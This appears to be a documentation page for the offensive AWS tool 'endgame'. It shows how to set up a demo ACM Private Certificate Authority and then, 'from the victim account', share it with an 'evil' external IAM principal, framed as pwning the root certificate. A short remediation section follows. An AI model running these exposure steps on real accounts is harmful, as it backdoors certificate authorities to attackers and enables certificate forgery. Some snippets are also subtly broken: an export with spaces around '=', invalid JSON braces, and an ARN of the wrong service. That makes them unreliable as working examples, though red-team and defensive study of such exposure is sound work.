

# ACM Private Certificate Authority (PCA)

## Steps to Reproduce

First, set up the demo resources. Then you can follow the exposure steps.

### Setting up the demo resources

* Run the Terraform code to generate the example AWS resources.

```bash
make terraform-demo
```

The ACM Private Certificate Authority will have been created - but you won't be able to use it yet. Per [the Terraform docs on [aws_acmpca_certificate_authority](https://registry.terraform.io/providers/hashicorp/aws/latest/docs/resources/acmpca_certificate_authority), "Creating this resource will leave the certificate authority in a `PENDING_CERTIFICATE status`, which means it cannot yet issue certificates."

* To solve this, navigate to the AWS Console in the selected region. Observe how the certificate authority is in the `PENDING_CERTIFICATE` status, as shown in the image below.

> 

* Select "Install a CA Certificate to activate your CA", as shown in the image above, marked by the **red box**.

* A wizard will pop up. Use the default settings and hit **"Next"**, then **"Confirm and Install"**.

* Observe that your root CA certificate was installed successfully, and that the STATUS of the CA is ACTIVE and able to issue private certificates.

.. and now you are ready to pwn that root certificate with this tool 😈

### Exposure Steps

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil
export CERTIFICATE_ID=12345678-1234-1234-1234-123456789012

endgame expose --service acm-pca --name $CERTIFICATE_ID
```

* To view the contents of the ACM PCA resource policy, run the following:

```bash
export AWS_REGION=us-east-1
export VICTIM_ACCOUNT_ID=111122223333
export CERTIFICATE_ID=12345678-1234-1234-1234-123456789012
export CERTIFICATE_ARN = arn:aws:acm-pca:$AWS_REGION:$VICTIM_ACCOUNT_ID:certificate-authority/$CERTIFICATE_ID

aws acm-pca list-permissions --certificate-authority-arn $CERTIFICATE_ARN
```

* Observe that the contents of the exposed resource Policy match the example shown below.

## Example

```bash
{
  "Permissions": [
    {
      "Actions": {
        "IssueCertificate",
        "GetCertificate",
        "ListPermissions"
      },
      "CertificateAuthorityArn": "arn:aws:acm:us-east-1:111122223333:certificate/12345678-1234-1234-1234-123456789012",
      "CreatedAt": 1.516130652887E9,
      "Principal": "acm.amazonaws.com",
      "SourceAccount": "111122223333"
    }
  ]
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that AWS PCA Certificates are only shared with trusted accounts, and that the trusted accounts truly need access to the Certificates.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposing usage of your private CAs**: Tightly control access to the following IAM actions:
  - [acm-pca:GetPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_GetPolicy.html): _Description_
  - [acm-pca:PutPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_PutPolicy.html): _Description_
  - [acm-pca:DeletePolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_DeletePolicy.html): _Description_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Resources

* [Attaching a Resource-based Policy for Cross Account Access in ACM PCA](https://docs.aws.amazon.com/acm-pca/latest/userguide/pca-rbp.html)
* [GetPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_GetPolicy.html)
* [PutPolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_PutPolicy.html)
* [DeletePolicy](https://docs.aws.amazon.com/acm-pca/latest/APIReference/API_DeletePolicy.html)

